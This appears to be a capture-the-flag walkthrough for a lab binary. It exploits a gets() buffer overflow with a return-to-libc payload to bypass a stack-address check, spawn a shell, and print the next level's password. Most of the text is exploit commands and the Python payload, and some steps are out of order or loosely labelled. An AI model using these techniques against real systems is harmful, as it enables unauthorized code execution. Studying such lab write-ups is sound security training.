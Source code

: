 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level02
gdb disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

To check for a buffer overflow, we input a large string exceeding 100 characters:
```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
ldd ./level2 | grep libc
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We export the shell we want to use:
```
$ export SHELL=/bin/sh
```
Then, we write a small program to find the address of environment variables (available in ressoures).
```
$ gcc getenv.c -o getenv
$ ./getenv SHELL
SHELL is at 0xbffff935
```
We need to determine the offset at which the buffer overflows:
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
```
Now, we prepare the payload:
```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```